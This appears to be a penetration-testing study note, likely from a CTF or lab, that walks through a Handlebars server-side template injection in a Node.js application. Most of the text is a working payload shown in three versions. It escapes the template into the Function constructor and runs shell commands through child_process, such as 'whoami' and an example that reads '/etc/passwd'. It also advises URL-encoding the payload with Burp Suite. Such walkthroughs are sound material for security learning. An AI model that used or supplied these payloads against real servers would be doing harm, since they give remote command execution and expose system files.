





# Encoding a payload
Given the payload in the [[04 - XSS Attempts]] note, Burpsuite can be used to URL encode the payload each time a command is changed (whoami, id, etc)

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```




Still getting an error:



It doesn't like this line of the payload, specifically the `require` call.
- {{this.push "return require('child_process').exec('whoami');"}}


There is a way to see which current [process](https://nodejs.org/api/globals.html)  is running.
In the payload, change
	{{this.push "return require('child_process').exec('whoami');"}}
	to
	{{this.push "return process;"}}

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process;"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

After changing that line and putting the encoded payload through the repeater, a different response happens:



Checking how `process` can be used
- https://nodejs.org/api/process.html
- https://nodejs.org/api/process.html#processmainmodule
- https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html#handlebars-nodejs

```
The `process.mainModule` property provides an alternative way of retrieving [`require.main`](https://nodejs.org/api/modules.html#accessing-the-main-module). The difference is that if the main module changes at runtime, [`require.main`](https://nodejs.org/api/modules.html#accessing-the-main-module) may still refer to the original main module in modules that were required before the change occurred. Generally, it's safe to assume that the two refer to the same module
```


Example: 
```javascript
      "return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')"
```

Payload:
```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

Responder result:


